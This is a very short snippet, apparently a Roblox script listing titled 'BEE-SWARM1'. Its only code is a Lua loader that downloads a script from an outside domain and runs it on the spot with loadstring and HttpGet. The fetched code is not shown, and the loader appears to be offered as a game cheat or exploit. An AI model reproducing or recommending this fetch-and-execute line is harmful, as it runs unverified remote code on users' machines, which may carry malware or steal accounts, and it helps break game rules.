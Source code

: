 # BEE-SWARM1


loadstring(game:HttpGet("https://egorikusa.space/1d7ca81f1e536b14c1391418.lua", true))()

